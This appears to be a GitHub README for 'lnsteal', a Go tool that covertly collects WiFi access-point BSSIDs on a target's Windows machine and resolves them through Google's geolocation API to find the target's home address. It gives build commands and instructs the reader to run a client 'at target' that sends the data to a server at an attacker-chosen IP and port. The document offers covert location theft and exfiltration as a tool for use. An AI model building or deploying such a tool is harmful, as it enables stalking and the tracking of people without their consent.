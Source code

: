 
```
 _           _             _
| |_ __  ___| |_ ___  __ _| |
| | '_ \/ __| __/ _ \/ _` | |
| | | | \__ \ ||  __/ (_| | |
|_|_| |_|___/\__\___|\__,_|_|
```
## what is the this tool.

lnsteal is a tool to steal adress to residence from BSSID of wifi.  
⚠Currently, the only supported OS is Windows.

## how
Google map also gets the surrounding access points when creating the map.  
You can get the address to residence from the information of the access point by using the API    
provided by google.  

## build

```bash
git clone https://github.com/0x6d61/lnsteal.git
cd lnsteal
go mod tidy
go build
```

## setup

Add the google api key to the environment variable with the name GOOGLE_API_KEY.

```bash
export GOOGLE_API_KEY="YOUR API KEY"
```

Next step is at target build a client to execute.

```bash
./lnsteal -b -i "Your server ip address" -p "Port to listen on server"
```

Launch a server that listens for data from clients

```bash
./lnsteal -s -p "Port to listen on server"
```

Execute at target a client code.